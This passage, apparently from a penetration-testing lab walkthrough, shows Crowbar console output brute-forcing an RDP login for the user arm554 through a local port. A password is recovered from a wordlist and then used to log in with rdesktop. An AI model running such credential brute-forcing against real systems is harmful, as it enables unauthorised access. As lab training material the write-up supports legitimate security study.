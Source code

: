 ```console
2017-07-17 21:42:28 LOG-RDP: 127.0.0.1:3389 - arm554:1234567890
2017-07-17 21:42:28 LOG-RDP: 127.0.0.1:3389 - arm554:abc123
---snip---
2017-07-17 21:42:49 RDP-SUCCESS : 127.0.0.1:3389 - arm554:tiger
2017-07-17 21:42:49 LOG-RDP: 127.0.0.1:3389 - arm554:freedom
2017-07-17 21:42:52 LOG-RDP: 127.0.0.1:3389 - arm554:gandalf
2017-07-17 21:42:52 LOG-RDP: 127.0.0.1:3389 - arm554:green
2017-07-17 21:42:52 LOG-RDP: 127.0.0.1:3389 - arm554:linda
2017-07-17 21:42:52 LOG-RDP: 127.0.0.1:3389 - arm554:helpme
2017-07-17 21:42:52 LOG-RDP: 127.0.0.1:3389 - arm554:magic
^CExiting...
```

Awesome! We got the username and password (__arm554:tiger__).

We can now finally RDP into the Windows Machine via this credentials while utilizing XFreeRDP.

```console
root@kali:~/pentestit/crowbar# rdesktop -u arm554 127.0.0.1
Autoselected keyboard map en-us
ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Connection established using SSL.
WARNING: Remote desktop does not support colour depth 24; falling back to 16
```

Once connected, you should see the login prompt for __arm554__.

<a href="/images/ptl-31.png"><img src="/images/ptl-31.png"></a>
